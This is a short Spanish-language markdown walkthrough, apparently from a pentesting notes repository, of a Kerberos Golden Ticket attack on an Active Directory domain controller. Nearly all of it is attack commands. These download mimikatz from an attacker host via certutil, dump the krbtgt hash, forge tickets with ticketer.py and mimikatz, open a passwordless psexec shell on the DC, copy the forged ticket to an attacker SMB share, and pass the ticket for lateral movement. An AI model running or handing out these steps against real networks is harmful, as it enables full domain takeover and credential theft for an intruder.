 # Que es un Golden Tiket Attack?

# Efectuar Golden Ticket Attack
Para comenzar debemos subir el `mimikatz` al DC, podemos hacer por con `upload` en una sesión de evil-winrm o con:
```
certutil.exe -f -urlcache -split http://192.168.145.133:8000/mimikatz.exe mimikatz.exe
```
Posteriormente ejecutamos el mimikatz con `mimikatz.exe` y en la sesión interactiva ponemos lo siguiente:
```
lsadump::lsa /inject /name:krbtgt
```
Ahora creamos un ticket con ticketer.py ejecutando el siguiente comando:
```
ticketer.py -nthash <hash_NTLM> -domain-sid <sid_krbtgt> -domain <dominio> <nombre_exportación>
```
[Ver ejemplo](Images/users/README.md)

Tenemos que exportar una variable de entorno con la ruta del ticket.
```
export KRB5CCNAME="/home/kali/Desktop/AD/Administrador.ccache"
```
Ahora con `psexec` podemos conectar directamente al DC sin proporcionar contraseña de la siguiente forma:
```
psexec.py -n -k <dominio>/<domain_admin>@<nombre_DC> cmd.exe
```
[Ver ejemplo](Images/sesion/README.md)

# Movimiento Lateral
Podemos crear un `golden.kirbi` para cargarlo con mimikatz en una máquina y ganar privilegios de acceso a un equipo, para ello en una sesión de mimikatz haremos lo siguiente:
```
kerberos::golden /domain:<dominio>  /sid:<sid_krbtgt> /rc4:<hash_NTLM> /name:<nombre de usuario a Impersonalizar> /ticket:golden.kirbi
```
Luego nos podemos traer ese ticket a nuestro equipo  con `download` en una sesión de evil-winrm o creando un recurso compartido a nivel de red con:

Máquina atacante:
```
impacket-smbserver smbFolder $(pwd) -smb2support
```
Máquina víctima:
```
copy golden.kirby \\<ip_atacante>\smbFolder\golden.kirbi
```
Ahora nos conectamos al equipo donde queremos hacer un `Pass The Ticket`, subimos el mimikatz, lo ejecutamos y en la sesión interactiva ponemos lo siguiente:
```
kerberos::ptt golden.kirby
```
